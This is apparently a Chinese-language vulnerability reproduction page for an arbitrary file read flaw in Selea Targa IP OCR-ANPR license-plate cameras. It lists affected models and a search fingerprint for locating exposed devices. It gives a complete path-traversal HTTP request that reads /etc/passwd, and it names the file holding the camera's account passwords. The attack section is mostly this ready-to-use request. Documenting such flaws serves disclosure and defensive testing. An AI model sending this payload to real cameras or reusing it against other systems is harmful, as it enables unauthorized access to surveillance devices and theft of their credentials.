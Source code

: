 # Selea OCR-ANPR摄像机 SeleaCamera 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 SeleaCamera 存在任意文件读取漏洞，攻击者通过构造特定的Url读取服务器的文件

## 漏洞影响

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera iZero</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 512</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 504</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa Semplice</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 805</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 750</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"selea_httpd"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/sel-1-20220314122220850.png)



发送如下请求包读取文件



```plain
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



![img](../../../.vuepress/public/img/sel-2.png)



摄像头账号密码文件为 `mnt/data/auth/users.json`



![img](../../../.vuepress/public/img/sel-3.png)